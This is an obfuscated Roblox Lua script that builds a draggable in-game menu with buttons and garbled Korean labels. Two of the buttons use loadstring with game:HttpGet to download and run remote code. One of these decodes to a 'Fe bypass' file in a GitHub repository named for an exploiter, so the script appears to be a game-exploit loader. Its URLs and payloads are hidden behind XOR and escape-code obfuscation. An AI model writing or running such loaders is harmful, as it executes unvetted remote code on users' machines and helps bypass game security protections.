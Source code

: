 --[[
 .____                  ________ ___.    _____                           __                
 |    |    __ _______   \_____  \\_ |___/ ____\_ __  ______ ____ _____ _/  |_  ___________ 
 |    |   |  |  \__  \   /   |   \| __ \   __\  |  \/  ___// ___\\__  \\   __\/  _ \_  __ \
 |    |___|  |  // __ \_/    |    \ \_\ \  | |  |  /\___ \\  \___ / __ \|  | (  <_> )  | \/
 |_______ \____/(____  /\_______  /___  /__| |____//____  >\___  >____  /__|  \____/|__|   
         \/          \/         \/    \/                \/     \/     \/                   
          \_Welcome to LuaObfuscator.com   (Alpha 0.10.8) ~  Much Love, Ferib 

]]--

local v0=string.char;local v1=string.byte;local v2=string.sub;local v3=bit32 or bit ;local v4=v3.bxor;local v5=table.concat;local v6=table.insert;local function v7(v62,v63) local v64={};for v82=1, #v62 do v6(v64,v0(v4(v1(v2(v62,v82,v82 + 1 )),v1(v2(v63,1 + (v82% #v63) ,1 + (v82% #v63) + 1 )))%256 ));end return v5(v64);end local v8=game.Players.LocalPlayer;local v9=v8:WaitForChild(v7("\225\207\218\60\227\169\224\11\216","\126\177\163\187\69\134\219\167"));local v10=Instance.new(v7("\16\206\56\192\249\45\234\63\204","\156\67\173\74\165"));v10.Name="肄섏넄x�꾨━利뚮씪�댄봽�듭뒪�щ┰��";v10.ResetOnSpawn=false;v10.Parent=v9;local v14=Instance.new(v7("\18\165\72\27\185","\38\84\215\41\118\220\70"));v14.Size=UDim2.new(0 -0 ,23 + 227 ,0,91 + 89 );v14.Position=UDim2.new(0.5 -0 , -125,0.4 -0 , -(532 -(416 + 26)));v14.BackgroundColor3=Color3.fromRGB(127 -87 ,40,18 + 22 );v14.BorderSizePixel=0 -0 ;v14.Parent=v10;local v20=Instance.new(v7("\118\4\35\31\251","\158\48\118\66\114"));v20.Size=UDim2.new(1,971 -(140 + 831) ,438.85 -(145 + 293) ,430 -(44 + 386) );v20.BackgroundTransparency=1487 -(998 + 488) ;v20.Parent=v14;local v24=Instance.new(v7("\158\13\51\57\97\171\254\185","\155\203\68\112\86\19\197"));v24.CornerRadius=UDim.new(0 + 0 ,14 + 2 );v24.Parent=v20;local v27=Instance.new(v7("\96\207\55\241\69","\152\38\189\86\156\32\24\133"));v27.Size=UDim2.new(1,438 -(262 + 176) ,772 -(201 + 571) ,1168 -(116 + 1022) );v27.BackgroundColor3=Color3.fromRGB(103 -78 ,15 + 10 ,91 -66 );v27.BorderSizePixel=0 -0 ;v27.Parent=v14;local v32=Instance.new(v7("\201\126\132\73\238\89\162\84","\38\156\55\199"));v32.CornerRadius=UDim.new(859 -(814 + 45) ,39 -23 );v32.Parent=v27;local v35=Instance.new(v7("\156\120\100\60\63\117\248\70\164","\35\200\29\28\72\115\20\154"));v35.Size=UDim2.new(1207 -(696 + 510) ,0 -0 ,1 + 0 , -(5 + 25));v35.Position=UDim2.new(0 -0 ,0 -0 ,0 + 0 ,149 -119 );v35.Text="紐⑤컮�� �덈툕 UI";v35.TextColor3=Color3.fromRGB(1140 -(261 + 624) ,453 -198 ,1335 -(1020 + 60) );v35.BackgroundTransparency=1424 -(630 + 793) ;v35.Parent=v14;local function v42(v65,v66) local v67=Instance.new(v7("\45\186\201\203\175\57\32\13\176\223","\84\121\223\177\191\237\76"));v67.Size=UDim2.new(0.4 -0 ,0 -0 ,0 + 0 ,30);v67.Position=v66;v67.Text=v65;v67.TextColor3=Color3.fromRGB(0,0 -0 ,0);v67.TextSize=1765 -(760 + 987) ;v67.BackgroundColor3=Color3.fromRGB(2168 -(1789 + 124) ,766 -(745 + 21) ,0 + 0 );v67.Parent=v14;local v75=Instance.new(v7("\142\127\234\175\40\94\53\211","\161\219\54\169\192\90\48\80"));v75.CornerRadius=UDim.new(0 -0 ,39 -29 );v75.Parent=v67;return v67;end local v43=v42("�� �쇱そ",UDim2.new(0.05 -0 ,0 -0 ,0.2 + 0 ,0 + 0 ));local v44=v42("�� �ㅻⅨ履�",UDim2.new(0.55 + 0 ,396 -(115 + 281) ,0.2 -0 ,0));local v45=v42("�꾨옒 �쇱そ",UDim2.new(0.05 + 0 ,0 -0 ,1055.75 -(87 + 968) ,0 -0 ));local v46=v42("�꾨옒 �ㅻⅨ履�",UDim2.new(0.55 + 0 ,0 -0 ,0.75 -0 ,0));local v47=v42("�꾨씪�대뱶誘�",UDim2.new(1413.35 -(447 + 966) ,0,0.45 -0 ,1665 -(970 + 695) ));v47.MouseButton1Click:Connect(function() loadstring(game:HttpGet(v7("\65\86\20\53\90\24\79\106\91\67\23\107\78\75\20\45\92\64\21\54\76\80\3\42\71\86\5\43\93\12\3\42\68\13\5\41\69\75\5\61\68\78\14\106\121\80\9\63\83\110\9\35\76\13\13\36\64\76\79\53\69\67\4\40\64\76\78\41\92\67","\69\41\34\96")))();end);local v48=v42("�꾨씪議대룄��",UDim2.new(0.35 -0 ,1817 -(1703 + 114) ,701.55 -(376 + 325) ,0 -0 ));v48.MouseButton1Click:Connect(function() loadstring("\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\72\116\116\112\71\101\116\40\34\104\116\116\112\115\58\47\47\114\97\119\46\103\105\116\104\117\98\117\115\101\114\99\111\110\116\101\110\116\46\99\111\109\47\103\48\48\108\88\112\108\111\105\116\101\114\47\103\48\48\108\88\112\108\111\105\116\101\114\47\109\97\105\110\47\70\101\37\50\48\98\121\112\97\115\115\34\44\32\116\114\117\101\41\41\40\41\10")();end);local v49=Instance.new(v7("\136\198\207\30\32\62\168\215\216\4","\75\220\163\183\106\98"));v49.Size=UDim2.new(0 -0 ,50,0 + 0 ,110 -60 );v49.Position=UDim2.new(0,24 -(9 + 5) ,1824.5 -(1195 + 629) , -(401 -(85 + 291)));v49.Text="�숋툘";v49.TextColor3=Color3.fromRGB(1520 -(243 + 1022) ,336 -81 ,255);v49.BackgroundColor3=Color3.fromRGB(114 -84 ,271 -(187 + 54) ,25 + 5 );v49.Parent=v10;v14.Visible=false;v49.MouseButton1Click:Connect(function() v14.Visible= not v14.Visible;end);local v57=game:GetService(v7("\55\169\142\37\240\12\170\158\35\234\7\168\157\62\218\7","\185\98\218\235\87"));local v58,v59,v60,v61;v27.InputBegan:Connect(function(v79) if ((v79.UserInputType==Enum.UserInputType.MouseButton1) or (v79.UserInputType==Enum.UserInputType.Touch)) then local v83=780 -(162 + 618) ;while true do if ((1181 -(1123 + 57))==v83) then v61=v14.Position;v79.Changed:Connect(function() if (v79.UserInputState==Enum.UserInputState.End) then v58=false;end end);break;end if (v83==(0 + 0)) then v58=true;v60=v79.Position;v83=1 + 0 ;end end end end);v27.InputChanged:Connect(function(v80) if ((v80.UserInputType==Enum.UserInputType.MouseMovement) or (v80.UserInputType==Enum.UserInputType.Touch)) then v59=v80;end end);v57.InputChanged:Connect(function(v81) if (v58 and (v81==v59)) then local v84=254 -(163 + 91) ;local v85;local v86;local v87;while true do if ((1930 -(1869 + 61))==v84) then v85=v81.Position-v60 ;v86=v61.X.Offset + v85.X ;v84=1 + 0 ;end if (v84==(1 -0)) then v87=v61.Y.Offset + v85.Y ;v14.Position=UDim2.new(v61.X.Scale,v86,v61.Y.Scale,v87);break;end end end end);
